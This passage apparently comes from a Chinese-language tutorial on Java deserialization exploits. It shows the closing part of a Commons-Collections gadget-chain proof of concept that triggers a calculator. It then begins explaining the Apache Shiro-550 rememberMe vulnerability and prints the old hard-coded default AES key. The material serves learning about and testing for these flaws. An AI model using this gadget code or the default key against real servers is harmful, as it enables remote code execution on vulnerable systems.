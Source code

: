 ```java
        expMap.put(tme, "valuevalue");
        outerMap.remove("keykey");
        // 替换掉fakeTransformers
        Field f =
                ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);
        // ⽣成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();
        // 本地测试触发
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

代码运行效果

![](img/计算器弹出.png)

## shiro550反序列化漏洞利用

Apache Shiro框架提供了记住密码的功能，用户登录成功后会生成加密并编码成功的cookie，服务端会对cookie值：

- base64解码
- AES解密（加密密钥硬编码）
  - 在1.2.4版本之前默认密钥的base64编码后的值为kPH+bIxk5D2deZiIxcaaaA==
  - 目前去掉了该硬编码的密钥，使其每次生成一个密钥来解决该漏洞，但是密钥可以被收集
